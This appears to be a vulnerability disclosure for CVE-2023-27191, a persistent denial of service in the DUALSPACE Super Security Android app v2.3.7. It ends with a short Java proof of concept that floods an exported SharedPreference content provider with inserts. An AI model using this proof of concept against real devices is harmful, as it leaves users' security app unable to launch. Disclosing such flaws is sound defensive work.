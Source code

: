## Denial of Service exists in Super Secuirty（CVE-2023-27191）

Vendor：DUALSPACE(http://www.dualspace.com/pc/en/products.html)

Affected product：Super Security  (com.ludashi.security)

Version：2.3.7

Download link：https://apkpure.com/cn/super-security-virus-cleaner/com.ludashi.security

Description of the vulnerability for use in the CVE：An issue found in DUALSPACE Super Secuirty v.2.3.7 allows an attacker to cause a denial of service via the SharedPreference files.

Additional information：The Super Security app is a security application that offers several security-related functions. Upon opening the app, it loads the SharedPreference files into memory. If a malicious app injects a large amount of data into these files, the Super Security app will load excessive data into memory, which can trigger an OOM error and cause the app to crash. Even worse, simply restarting the app will not fix the security issue, as the injected data is persistent in the SharedPreference files. In practice, this means that the Super Security app becomes unable to launch successfully.

poc：

```java
public void attack() {
    ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
    Uri uri = Uri.parse("content://com.ludashi.security.SharedPrefProvider");
    ContentValues contentValues = new ContentValues();
  	While(true){
        contentValues.put("file_name","__default__");
    	  contentValues.put("type",4);
    	  contentValues.put("key",RandomString);
    	  contentValues.put("value",RandomString);
    	  contentResolver.insert(uri, contentValues); 
    }
}
```



